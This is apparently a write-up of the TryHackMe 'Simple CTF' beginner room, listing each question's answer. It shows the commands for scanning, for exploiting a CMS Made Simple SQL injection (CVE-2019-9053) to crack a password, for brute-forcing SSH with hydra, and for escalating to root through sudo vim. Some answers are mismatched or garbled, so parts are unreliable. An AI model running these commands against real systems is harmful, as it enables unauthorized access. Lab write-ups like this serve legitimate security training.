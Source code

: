 # Tryhackme room address

***https://tryhackme.com/room/easyctf***

Beginner level ctf


## [Task 1] Simple CTF 


### 1 :	How many services are running under port 1000?

**2**

**nmap -sC -sV 10.10.10.47**


### 2 : What is running on the higher port? 

**ssh**


### 3 : What's the CVE you're using against the application? 

lets do a gobuster on our machine ip

we get a directory **simple** nothins else is interesting

so we can run gobuster again on **<ip address>/simple/**

now we get a login panel 

we can search for **cms made simple** on searchsploit

now we get the cve 

**CVE-2019-9053**


### 4 : To what kind of vulnerability is the application vulnerable?

**sqli**


### 5 : What's the password?

we can run the exploit

**python 46635.py -u http://10.10.10.47/simple --crack -w /usr/share/wordlists/rockyou.txt**

we get the password for mitch

**secret**

also i got the same password by bruteforcing ssh 

now we can check port 22 ftp

ftp <ip address>

we get a text file in pub directory

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

mow we know that mitch's password is weak so we can we can try to bruteforce ssh on 2222

**hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.47:2222**

now we get the same  password we can login as mitch


### 6 : What's the user flag?

**/bin/bash**

we have the user.txt now


### 7 : Is there any other user in the home directory? What's its name?

**sunbath**

### 8 : What can you leverage to spawn a privileged shell?

**sudo -l**

**vim**

### 9 : What's the root flag?

**sudo vim**

**:!/bin/bash**


now we are root  

